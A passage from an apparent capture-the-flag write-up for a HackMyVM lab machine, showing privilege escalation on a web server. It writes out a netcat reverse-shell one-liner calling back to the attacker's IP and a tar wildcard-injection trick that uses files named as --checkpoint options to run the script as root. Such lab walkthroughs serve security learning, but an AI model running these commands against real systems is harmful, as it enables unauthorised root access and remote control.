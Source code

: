 Let's first change our working directory.

```bash
$ cd /var/www/html/
$ pwd
/var/www/html
$ 

```

-----
## Privilege escalation
We should start a netcat listener for our reverse shell.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick4]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...

```
Since almost everything is set we should no create a few files.
The first file we have to create is a bash script with a reverse shell command to our attacker machine.
The second file is needed for when the tar archive is extracted, the `--checkpoint-action` option is triggered, and the `sh shell.sh` command is executed.
The third file is needed for when the tar archive is extracted, the `--checkpoint option` is triggered, and a checkpoint is created at the specified point. This allows the attacker to execute arbitrary commands on the target system at that point. 
After creating the files it is a good idea to see if everything is set.

```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.15 1234 >/tmp/f' > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
$ ls -la
total 156
-rw-rw-rw-  1 www-data www-data     1 Feb 12 20:35 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw-  1 www-data www-data     1 Feb 12 20:35 --checkpoint=1
drwxr-xr-x 14 www-data www-data  4096 Feb 12 20:35 .
drwxr-xr-x  3 root     root      4096 Jan 21 14:02 ..
drwxr-xr-x  2 www-data www-data  4096 Feb  6 13:55 .well-known
-rw-r--r--  1 www-data www-data   871 Jan 21 20:24 404.css
-rw-r--r--  1 www-data www-data  5014 Feb  5 14:36 404.html
drwxr-xr-x  3 root     root      4096 Feb  8 21:07 careers
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 css
drwxr-xr-x  7 www-data www-data  4096 Feb 12 16:05 customer
drwxr-xr-x  8 root     root      4096 Feb  9 21:48 employee
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 fonts
drwxr-xr-x  5 www-data www-data  4096 Jan 22 19:59 images
drwxr-xr-x  2 root     root      4096 Jan 30 21:29 img
-rw-r--r--  1 root     root     51414 Jan 30 22:17 index.html
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 js
drwxr-xr-x  9 root     root      4096 Jan 30 21:29 lib
drwxr-xr-x  2 www-data www-data 20480 Jan 22 20:00 modules
-rw-r--r--  1 root     root        32 Feb  6 11:34 robots.txt
drwxr-xr-x  3 root     root      4096 Jan 30 21:29 scss
-rw-rw-rw-  1 www-data www-data    79 Feb 12 20:35 shell.sh
-rw-r--r--  1 www-data www-data  4038 Dec  4 08:39 styles.css
$ 

```
Everything is set, now we have to wait a bit till the backup is created. 
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick4]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
```